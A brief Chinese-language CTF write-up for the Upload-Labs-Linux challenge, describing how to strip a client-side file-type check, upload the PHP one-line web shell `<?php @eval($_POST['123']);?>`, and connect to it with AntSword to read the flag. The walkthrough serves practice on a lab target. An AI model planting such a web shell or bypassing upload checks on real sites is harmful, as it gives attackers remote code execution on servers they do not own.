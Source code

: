 ```yaml
---
title: CTF：Upload-Labs-Linux
date: 2022-10-10 08:52:48
cover: /img/Upload-Labs-Linux/20221010085420.png
tags:
- ctf
- buuctf
- antsword
---
```

# 题目预览：
![](/img/Upload-Labs-Linux/20221010085420.png)  
# 解决方法
1. 开控制台
2. 关闭javascript
   > 设置-偏好设置-调试程序
   删除`onsubmit="return.checkFile()"`
3. 新建一个文件里面写入`<?php @eval($_POST['123']);?>`
4. 后缀名改为php上传到网站，显示出图片后右键复制链接。
5. 打开antsword，add一个url地址为图片链接，密码为123，加密base64.
6. 点击链接就能发现根目录有个flag文件了。